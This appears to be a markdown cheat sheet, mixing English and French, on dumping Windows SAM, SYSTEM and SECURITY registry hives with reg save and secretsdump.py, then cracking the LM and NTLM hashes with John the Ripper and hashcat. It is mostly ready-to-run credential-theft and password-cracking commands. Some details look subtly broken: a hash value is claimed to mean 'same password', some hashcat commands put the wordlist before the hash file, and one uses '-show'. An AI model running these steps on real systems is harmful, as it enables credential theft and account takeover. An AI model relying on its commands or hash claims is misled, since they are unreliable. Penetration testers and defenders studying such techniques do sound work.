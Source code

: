 ## 1. Dump the Windows files which contain the local password hashes (Windows registry files: SAM, SECURITY and SYSTEM):

Dump les fichiers de registre à l'aide de "REG SAVE" (nécessite les droits admin):
```
	reg save HKLM\SAM C:\temp\sam
	reg save HKLM\SYSTEM C:\temp\system 
	reg save HKLM\SECURITY C:\temp\security
```



## 2. Extract the windows local password hashes:

```
	secretsdump.py -sam sam -security security -system system LOCAL
```



## 3. Hash formats :


Two types of hashes are present in SAM file
	- LM (old storage method of Windows)
	- NTLM

	
Examples of hash

		[username]::[LM]:[NTLM]:::

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```
		
- If the LM hash has the value "aad3b435b51404eeaad3b435b51404ee" so the password is not storage in the LM hash
- If the NTLM hash has the value "31d6cfe0d16ae931b73c59d7e0c089c0" so the password is empty (potentially due to a desactivated account)
- If the NTLM hash has the value "b1b1d2ebf0bb5707135a9032caea49d3" so we have the same password



## 4. John the ripper - Crack the password hashes :

#### General commands and rules
	
		john [type of attack] --format=[hash of the format] 
			
		--rules:Single
		--rules:Wordlist
		--rules:Extra
		--rules:Jumbo (all the above)
		--rules:KoreLogic
		--rules:All (all the above)


#### Cracking methodoloy :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
			
2. Verify login=password
```
john --single --format=[LM|NTLM] hashes.txt --fork=4
```

3. Standards dictionnary attacks with[out] rules
```
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4 --rules=KoreLogic
```	
			
Be careful, the rules=all parameter is very long. With a lot of hashes, this operation will working during several days.

4. Show result:
	
The cracked hashes are located in the corresponding .pot file
		
		john --format=LM hashes.txt --show
		john --format=NTLM hashes.txt --show




## 5. Hashcat - Crack the password hashes :


#### General commands and rules
```			
hashcat -m <typeOfHash> -a <typeOfAttack> -o <outputFile> <hashesFile.txt> <dictionaryFile.txt>
```		
			
Advances attacks (option -a)
```
0 - Straight : It is the default attack which is also the dictionary attack
1 - Combination : This attack permits to combine several dictionaries. Example: With a wordlist of fruits and a second with color, we obtain a combined wordlist with combinations like : BananaRed, BananaGreen, AppleRed, AppleGreen
3 - Brute-forcing : Traditional Brute-forcing attack which will try each possible combination. Compatible with Masks-Attacks and Rules-Attacks
4 - Permutation : Attack which change the order of the letter for each word of the dictionary. Example with the password 123: 132, 213, 231, 312, 321
```
			
#### Cracking methodology :
		
1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :

		"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
		"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
		"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
		

2. Verify login=password

➤ For LM hash :
	Generate the list of the login
		cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt
	Try login=password 
		hashcat -m 3000 hash.txt [LOGIN].txt
			
➤ For NTLM hash :
	Generate the list of the login
		cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt
	Try login=password 
		hashcat -m 1000 hash.txt [LOGIN].txt
			
		3. Dictionnary attack
			For LM hash :
				hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt --force
			
			For NTLM hash:
				hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt --force

4. Dictionnary attack with rules

To see the existing rules attacks
		ls -l /usr/share/hashcat/rules/
			
		➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt  -r [Rules_path] --force
			
		➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -r [Rules_path] --force
			
5. Show cracked/not cracked passwords
		➤ For LM hash :
		hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt -show
			
		➤ For NTLM hash:
		hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -show
